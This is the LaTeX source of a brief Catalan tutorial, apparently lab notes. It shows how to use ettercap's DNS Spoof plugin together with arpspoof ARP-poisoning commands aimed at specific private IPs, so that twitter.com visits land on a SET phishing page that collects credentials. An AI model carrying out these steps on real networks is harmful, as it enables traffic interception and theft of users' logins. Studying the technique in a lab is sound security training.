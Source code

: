 \documentclass[]{article}
\begin{document}
\textbf{Obrim Ettercap.}

\texttt{[image: ./tex2pdf.-39d081dc02974bfa/6d9f1f74187d4d8b8012d877269fda834ce81b5e.png]}

\texttt{ettercap\ -\/-gtk} --\textgreater{} Fem el loadup.

Ens anem a \texttt{Plugins} --\textgreater{}
\texttt{Manage\ the\ Plugins} --\textgreater{}
\texttt{DNS\ Spoof\ plugin} --\textgreater{} L'activem.

\texttt{[image: ./tex2pdf.-39d081dc02974bfa/3007a3488146fb7afcd2d2861f248f0125640663.png]}

A continuació, ARP enverinará tots els amfitrions de la xarxa, de manera
que tot el trànsit passa per la nostra màquina (atacant)
--\textgreater{} començarem a ``esnifar''.

Quan algú intenti accedir a twitter.com, la finestra d'ettercap dirà
``bla\_bla.twitter.com'' falsificat a la ip de l'atacant
\texttt{\textless{}la\_nostra\_ip\textgreater{}}.

Al mateix temps, a la finestra SET, veuràs ``tenim un èxit!!'' juntament
amb alguna altra informació. Si la víctima és prou crédula per introduir
les seves credencials a la vostra pàgina de pesca, veureu aquests
detalls a la finestra SET.

Però heu de jugar al joc d'espera i esperar fins que algú intenti
accedir al lloc web de pesca.

\begin{verbatim}
# Kali Linux

arp -a

arpspoof -i eth0 -t 10.200.243.211 10.200.243.1 # Suplantació redirecció de paquets al Client

arpspoof -i eth0 -t 10.200.243.1 10.200.243.211 # Suplantació redirecció de paquets al Servidor
\end{verbatim}

\begin{verbatim}
# Host local

Connectar-se a Twitter - Farà la redirecció a 10.200.243.137

\end{verbatim}

\texttt{[image: ./tex2pdf.-39d081dc02974bfa/3007a3488146fb7afcd2d2861f248f0125640663.png]}

\hypertarget{ettercap-per-cli}{%
\subsection{\texorpdfstring{\textbf{Ettercap per
CLI}}{Ettercap per CLI}}\label{ettercap-per-cli}}
\end{document}
